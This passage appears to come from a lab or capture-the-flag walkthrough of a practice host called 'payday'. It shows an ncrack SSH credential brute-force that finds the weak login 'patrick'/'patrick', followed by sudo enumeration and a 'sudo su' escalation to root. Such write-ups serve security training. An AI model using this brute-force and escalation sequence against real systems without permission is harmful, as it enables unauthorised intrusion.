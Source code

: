 ```bash
kali@kali:~$ ncrack 192.168.120.85 -U users.txt -P users.txt -p ssh -f -v

Starting Ncrack 0.7 ( http://ncrack.org ) at 2020-03-25 09:03 EDT

Discovered credentials on ssh://192.168.120.85:22 'patrick' 'patrick'
ssh://192.168.120.85:22 finished.

Discovered credentials for ssh on 192.168.120.85 22/tcp:
192.168.120.85 22/tcp ssh: 'patrick' 'patrick'

Ncrack done: 1 service scanned in 3.01 seconds.
Probes sent: 1 | timed-out: 0 | prematurely-closed: 0

Ncrack finished.
kali@kali:~$
Escalation
Local Enumeration
patrick@payday:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for patrick:
User patrick may run the following commands on this host:
    (ALL) ALL
Sudo
As the patrick user is permitted to run all commands, we can simply use “sudo su” to escalate to root.

patrick@payday:~$ sudo su
root@payday:/home/patrick# id
uid=0(root) gid=0(root) groups=0(root)
```
